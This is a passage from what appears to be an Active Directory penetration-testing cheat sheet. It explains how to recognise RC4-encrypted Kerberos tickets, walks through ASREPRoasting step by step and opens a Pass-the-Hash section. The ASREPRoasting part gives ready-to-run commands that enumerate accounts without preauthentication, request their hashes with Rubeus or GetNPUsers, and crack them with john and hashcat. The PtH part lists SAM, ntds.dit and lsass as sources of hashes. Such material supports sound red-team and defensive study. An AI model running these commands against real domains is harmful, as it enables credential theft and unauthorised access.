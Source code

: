 > Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256.\
> To recognize if a ticket is encrypted with RC4, check the hash value:
>
> * Tickets encrypted with RC4 will begin with `$krb5tgs$23$*`
> * Tickets encrypted with AES will begin with `$krb5tgs$18$*` or `$krb5tgs$17$*`

***

### **ASREPRoasting**

> ASREPRoasting is a technique to steal the password hashes of user accounts that have Kerberos preauthentication disabled.\
> When preauthentication is enabled, a user who needs access to a resource begins the Kerberos authentication process by sending an Authentication Server Request (AS-REQ) message to the domain controller (DC). The timestamp on that message is encrypted with the hash of the user’s password.\
> \
> If the DC can decrypt that timestamp using its own record of the user’s password hash, it will send back an Authentication Server Response (AS-REP) message that contains a Ticket Granting Ticket (TGT) issued by the Key Distribution Center (KDC), which is used for future access requests by the user.\
> \
> However, if preauthentication is disabled, an attacker could request authentication data for any user and the DC would return an AS-REP message. Since part of that message is encrypted using the user’s password, the attacker can then attempt to brute-force the user’s password offline. Note that preauthentication is enabled by default in Active Directory. However, it can be manually disabled for some users accounts.

1. **Enumerate accounts without preauth required**
   * Windows: `Import PowerView.ps1` followed by `Get-DomainUser -PreauthNotRequired -verbose`
   * Linux: `python GetNPUsers.py domain.example -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast`
2. **Perform ASREPRoasting:**
   * (WINDOWS) Rubeus - Targeted User: `.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]`
   * (WINDOWS) Rubeus - All affected users: `.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`
   * (LINUX) GetNPUsers - Username wordlist: `python3 GetNPUsers.py domain.name/validuser:validpass -dc-ip 10.10.10.1 -usersfile usernames.txt -request -format hashcat -outputfile hashes.txt`
3. **Offline Password Cracking:**
   * `john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast`
   * `hashcat -m 18200 --force -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt`

***

### **Pass the Hash (PtH)**

> * A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of a plain text password for authentication.
> * The attacker doesn't need to decrypt the hash to authenticate.
> * PtH exploit the authentication protocol, as the password hash remains static for every session until the password is changed.
> * Note: the attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash.
> * Hashes can be obtained in several ways, including:
>   * Dumping the local SAM database from a compromised host.
>   * Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
>   * Pulling the hashes from memory (lsass.exe).

